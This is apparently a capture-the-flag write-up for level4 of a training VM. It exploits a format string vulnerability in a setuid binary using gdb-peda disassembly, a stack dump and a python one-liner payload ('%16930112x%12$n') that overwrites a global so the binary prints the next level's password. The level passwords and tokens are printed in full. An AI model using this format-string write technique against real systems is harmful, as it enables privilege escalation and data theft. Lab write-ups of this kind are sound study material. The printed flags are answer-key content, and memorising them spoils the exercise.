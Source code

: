 # Level4 - Format string vulnerability - Basic write unsigned integer

## Local script usage

```shell
Usage: ./Ressources/main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| level4 | `b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa` |
| level5 | `0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

1. Connect to `level4` user

```shell
ssh level4@$SNOW_HOST -p 4242
# Enter the password

ls -l
> -rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
```

Notice there is a binary with level4 setuid and setgid.

2. Debug level4

Execute level4

```shell
./level4
(stdin) abcdef
> abcdef
```

Seems to be like previous levels.

Lets debug the binary

```shell
(gdb) info functions

> (...)
  0x08048444  p
  0x08048457  n
  0x080484a7  main
  (...)
```

```shell
gdb-peda$ pdisas main
# (...)
gdb-peda$ pdisas p
# (...)

gdb-peda$ pdisas n
  0x08048457 <+0>:     push   ebp
  0x08048458 <+1>:     mov    ebp,esp
  0x0804845a <+3>:     sub    esp,0x218
  0x08048460 <+9>:     mov    eax,ds:0x8049804              # 0x8049804 <stdin@@GLIBC_2.0>
  0x08048465 <+14>:    mov    DWORD PTR [esp+0x8],eax
  0x08048469 <+18>:    mov    DWORD PTR [esp+0x4],0x200     # 0x200
  0x08048471 <+26>:    lea    eax,[ebp-0x208]
  0x08048477 <+32>:    mov    DWORD PTR [esp],eax
  0x0804847a <+35>:    call   0x8048350 <fgets@plt>         # call fgets(buf, 0x200, stdin)
  0x0804847f <+40>:    lea    eax,[ebp-0x208]
  0x08048485 <+46>:    mov    DWORD PTR [esp],eax
  0x08048488 <+49>:    call   0x8048444 <p>                 # call p()
  0x0804848d <+54>:    mov    eax,ds:0x8049810              # 0x8049810 <m>:  0x00000000
  0x08048492 <+59>:    cmp    eax,0x1025544                 # compare 0x1025544 (16930116) and 0x8049810
  0x08048497 <+64>:    jne    0x80484a5 <n+78>
  0x08048499 <+66>:    mov    DWORD PTR [esp],0x8048590     # 0x8048590: "/bin/cat /home/user/level5/.pass"
  0x080484a0 <+73>:    call   0x8048360 <system@plt>        # call system()
  0x080484a5 <+78>:    leave
  0x080484a6 <+79>:    ret
```

After looking the condition, we want write the value `0x1025544` at the address `0x8049810`.

We need to know the buffer address.

```bash
gdb-peda$ b *p+17 # just after printf
gdb-peda$ run <<< AAAA
[------------------------------------stack-------------------------------------]
0000| 0xbffff410 --> 0xbffff440 ("AAAA\n")
0004| 0xbffff414 --> 0xb7ff26b0 (pop    edx)
0008| 0xbffff418 --> 0xbffff684 --> 0xb7fd0ff4 --> 0x1a4d7c
0012| 0xbffff41c --> 0xb7fd0ff4 --> 0x1a4d7c
0016| 0xbffff420 --> 0x0
0020| 0xbffff424 --> 0x0
0024| 0xbffff428 --> 0xbffff648 --> 0xbffff658 --> 0x0
0028| 0xbffff42c --> 0x804848d (<n+54>: mov    eax,ds:0x8049810)
0032| 0xbffff430 --> 0xbffff440 ("AAAA\n")
0036| 0xbffff434 --> 0x200
0040| 0xbffff438 --> 0xb7fd1ac0 --> 0xfbad2088
0044| 0xbffff43c --> 0xb7ff37d0 (<__libc_memalign+16>:  add    ebx,0xb824)
0048| 0xbffff440 ("AAAA\n")
[------------------------------------------------------------------------------]
```

The buffer pointer is 12 addresses before the printf argument.

So we can build our exploit:

- `m` address: `0x8049810` <=> `\x10\x98\x04\x08`
- value: `0x1025544 - 0x4 = 0x1025540` <=> 16930112
- buffer relative address: `%12%n`

=> `"\x10\x98\x04\x08" + "%16930112x" + "%12$n"`

Lets try

```bash
./level4 < <(python -c 'print("\x10\x98\x04\x08" + "%16930112x" + "%12$n")')
> (...)
  0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

---

## Sources

### Format string vulnerability

- [Memory segmentation - Cheat sheet](https://www.0x0ff.info/wp-content/uploads/2015/12/buffer-overflow-memory-segmentation-cheat-sheet.png)
- [Exploit 101 - Format Strings](https://axcheron.github.io/exploit-101-format-strings/)

### Shell

- [Man fgets](https://linux.die.net/man/3/fgets)
- [Man printf](https://linux.die.net/man/3/printf)
- [Man system](https://linux.die.net/man/3/system)

